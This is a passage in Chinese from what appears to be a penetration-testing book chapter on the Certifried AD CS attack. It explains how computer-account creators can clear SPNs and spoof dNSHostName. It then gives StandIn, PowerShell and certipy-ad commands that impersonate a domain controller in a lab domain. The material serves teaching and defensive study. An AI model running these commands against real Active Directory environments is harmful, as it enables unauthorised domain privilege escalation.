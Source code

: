 该漏洞与`samAccountName`欺骗（CVE-2021-42278）有许多相似之处。作者的原创研究已在此发布[13]。

在 AD CS 中，默认情况下有两个认证证书：用户和机器。每个用户帐户都有一个**用户主体名称**（**UPN**），该名称必须是唯一的。UPN 嵌入到证书中，并在认证过程中由 KDC 使用。计算机帐户没有 UPN，`dNSHostName` 作为替代使用。计算机帐户的创建者有权写入此属性，称为**验证写入 DNS 主机名**。该属性不要求唯一性，但在`dNSHostName`更改后，SPN 也将更改。SPN 在域中有唯一性要求，但计算机帐户创建者可以更改 SPN（**验证写入服务主体名称**）。攻击的思路是创建一个计算机帐户，清除包含完全限定域名（FQDN）的 SPN，将`dNSHostName`更改为与目标匹配（例如，域控制器），然后请求证书。需要特别说明的是，`dNSHostName`属性仅在请求证书时使用，而不用于证书映射。

为了在本节中进行攻击，我们将使用名为 Certipy[14] 的工具；不过，也有一个名为`certipy-ad`的分支，可以安装在 Kali 上。两种工具的语法是相同的。两种工具都支持所有特权提升场景、影子凭据攻击和金色证书伪造。

首先，我们为攻击做必要的准备。我们将创建一个计算机帐户，清除 SPN，并将 `dNSHostName` 属性更改为与域控制器匹配。以下 PowerShell 命令和 `StandIn` 工具将完成这项工作：

```
StandIn.exe –computer legitpc –make
Set-ADComputer legitpc -ServicePrincipalName @{}
Set-ADComputer legitpc -DnsHostName meereen.essos.local
Get-ADComputer legitpc -properties dnshostname,serviceprincipalnames
```

前面命令执行的结果如下截图所示：

![图 8.15 – Certifried 利用准备](img/B18964_08_15.jpg)

图 8.15 – Certifried 利用准备

现在，使用 `certipy-ad`，我们请求证书并以域控制器计算机帐户身份进行身份验证：

```
certipy-ad req -u 'legitpc$@essos.local' -p 'xfdb8UeqqgT9Aje' -target 192.168.56.23 -ca ESSOS-CA -template Machine -dc-ip 192.168.56.12
certipy-ad auth -pfx meereen.pfx -dc-ip 192.168.56.12
```
